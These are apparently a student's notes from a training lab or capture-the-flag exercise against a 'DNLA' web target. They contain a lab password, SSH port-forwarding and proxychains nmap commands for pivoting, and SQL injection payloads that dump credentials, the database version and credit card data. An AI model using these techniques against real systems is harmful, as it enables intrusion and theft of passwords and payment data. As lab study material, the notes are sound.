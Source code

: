 MS setup: 

JB Password:
```
v0cEcUbwIzY878p
```

```
ssh -MS /tmp/jump student@10.50.37.98	     

ssh -S /tmp/jump jump -O forward -D 9050

ssh -MS /tmp/web student@10.50.37.98

ssh -S /tmp/web web -O forward -L127.0.0.1:2224:10.100.28.40:4444

ssh -S /tmp/jump jump -O cancel -D9050

ssh -S /tmp/web web -O forward -D9050

proxychains nmap -Pn -n -T5 10.100.28.55

proxychains nmap --script http-enum 10.100.28.55
```

-----------------------------------------------------------------------


```
Golden Rule:
```
127.0.0.1:1111/cases/productsCategory.php?category=13 UNION SELECT table_schema,table_name,column_name from information_schema.columns
```
### step 4:  Craft more tailored queries
q3 * Provide the password for users with administrator access to the DNLA database. To answer input the flag.
```
127.0.0.1:1111/cases/productsCategory.php?category=13 UNION SELECT username,password,permission from sqlinjection.members
```
q4 * Utilizing the Search page on DNLA, identify the vulnerability to find the flag. To answer input only the characters inside the flag.
```
' OR 1='1
```
q5 * Identify the version of the database that DNLA is utilizing.To answer input the full version.
```
http://127.0.0.1:1111/cases/productsCategory.php?category=1 UNION SELECT table_schema,@@version,column_name from information_schema.columns
```
```


q6 * Utilizing the input field on DNLA budget page, find the flag associated with credit cards. To answer the question enter only the characters inside the flag.
```

127.0.0.1:1111/cases/productsCategory.php?category=13 UNION SELECT username,password,permission from sqlinjection.members

'UNION SELECT id,creditcard_number,order from sqlinjection.payments' query


```
q7 * Find the flag associated with id 1337.
```

```
q8 * Using the /cases/register.php page on DNLA create a user with admin permissions, ensuring the firstname is set to Hacker. Once created log in to get the flag.
(meh !! I ain't pressed)
